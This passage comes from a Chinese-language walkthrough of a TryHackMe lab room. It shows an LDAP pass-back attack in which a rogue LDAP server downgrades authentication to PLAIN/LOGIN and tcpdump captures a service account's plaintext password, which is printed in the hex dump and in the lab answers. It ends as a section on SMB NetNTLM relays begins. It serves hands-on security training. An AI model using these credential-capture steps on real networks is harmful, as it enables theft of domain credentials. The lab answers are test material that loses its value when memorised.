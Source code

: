```shell title="LDAP搜索以验证支持的身份验证机制"
         
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

### 捕获 LDAP 凭证

我们的恶意 LDAP 服务器现已配置完毕。当我们点击 `http://printer.za.tryhackme.com/settings.aspx` 上的 "测试设置" 时，验证将以明文进行。如果你正确配置了流氓 LDAP 服务器，而它正在降级通信，你将会收到以下错误： "此区分名称包含无效语法"。如果收到此错误，可以使用 tcpdump 命令捕获凭据：

```shell title="TCPDump"
$sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on breachad, link-type RAW (Raw IP), snapshot length 262144 bytes
......
20:46:01.053477 IP 10.200.92.201.61985 > 10.50.90.2.ldap: Flags [P.], seq 1011877014:1011877079, ack 1957733044, win 1027, length 65
        0x0000:  4500 0069 8f0c 4000 7f06 a0bd 0ac8 5cc9  E..i..@.......\.
        0x0010:  0a32 5a02 f221 0185 3c50 0496 74b0 a2b4  .2Z..!..<P..t...
        0x0020:  5018 0403 bc34 0000 3084 0000 003b 0201  P....4..0....;..
        0x0030:  0d60 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
        0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
        0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..tryhackmel
        0x0060:  6461 7070 6173 7331 40                   dappass1@
```

现在我们又有了一组有效的 AD 域凭据！通过使用 LDAP 回传攻击和降级支持的身份验证机制，我们可以截获明文凭据。
:::info Answer the questions below

针对 Windows 身份验证系统不常见的 LDAP 身份验证系统可以执行什么类型的攻击？

```plaintext
LDAP Pass-back Attacks
```

我们允许在恶意 LDAP 服务器上使用哪两种身份验证机制来降级身份验证并使其成为明文？

```plaintext
LOGIN,PLAIN
```

与 svcLDAP 帐户关联的密码是什么？

```plaintext
tryhackmeldappass1@
```

:::

## Authentication Relays

接着，我们来看看针对更广泛的网络身份验证协议的攻击。在 Windows 网络中，有大量服务在相互对话，允许用户使用网络提供的服务。

这些服务必须使用内置的身份验证方法来验证传入连接的身份。在任务 2 中，我们探讨了网络应用程序中使用的 NTLM 身份验证。在本任务中，我们将深入研究从网络角度看这种身份验证的方式。不过，在本任务中，我们将重点关注 SMB 使用的 NetNTLM 身份验证。

